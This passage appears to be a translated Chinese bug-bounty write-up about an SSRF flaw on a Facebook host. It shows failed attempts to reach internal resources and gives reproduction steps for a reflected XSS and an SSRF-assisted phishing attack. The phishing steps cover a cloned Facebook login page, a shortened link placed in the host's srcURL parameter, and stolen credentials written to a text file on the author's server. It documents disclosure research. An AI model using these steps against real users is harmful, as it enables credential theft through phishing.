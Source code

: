 通过这种观察，我们可以枚举防火墙环境背后的内部基础设施。我很快向 Facebook 报告了我的发现，但被拒绝了，因为他们认为这不是安全漏洞。观察以下响应：

![](https://gitee.com/fuli009/images/raw/master/public/20230301101214.png)

  

#  **深入挖掘  **

 **  
**

我必须拿出证据。我尝试使用 URL 架构（如 file://、dict://、ftp://、gopher://
等）读取内部信息。还尝试获取云实例的元数据但没有成功。

一段时间后，我终于想出了一些有影响力的例子。以下是我发送给 Facebook 的一些实时攻击场景以及重现步骤：

## 1\. 反射型跨站脚本（XSS）：

![](https://gitee.com/fuli009/images/raw/master/public/20230301101215.png)

## 2.借助SSRF的钓鱼攻击：

步骤 1.创建并托管一个 Facebook 登录的钓鱼页面，窃取受害者的 Facebook 登录凭据，看起来像一个合法的登录门户。

![](https://gitee.com/fuli009/images/raw/master/public/20230301101216.png)

我将它托管在私人服务器上，即http://ahmedabadexpress.co.in/

步骤 2.从 Web 浏览器打开“ https://tinyurl.com/ ”，创建一个托管钓鱼页面的小 URL，即“
http://ahmedabadexpress.co.in/fb/login/fb.html ”。复制创建的小 URL。

![](https://gitee.com/fuli009/images/raw/master/public/20230301101217.png)

步骤 3.在以下 URL 的“srcURL”参数中插入复制的“tiny URL”并发送给受害者：  

  * 

    
    
    https ://m-nexus.thefacebook.com/servlet/taskProc?taskId=shortURL&taskEnv=xml&taskContentType=json&srcURL={YOUR_TINY_URL_HERE }

![](https://gitee.com/fuli009/images/raw/master/public/20230301101219.png)

一旦受害者在此页面上输入他/她的用户名和密码，它就会被保存到“ http:
//ahmedabadexpress.co.in/fb/login/usernames.txt ”文件中。受害者将被重定向到真实的 Facebook
登录页面。你可以看到主机名是字符串“m-nexus.thefacebook.com”所以它看起来是合法的。

步骤 4.

导航到http://ahmedab adexpress.co.in/fb/login/usernames.txt

URL 并观察被盗凭证。

![](https://gitee.com/fuli009/images/raw/master/public/20230301101221.png)
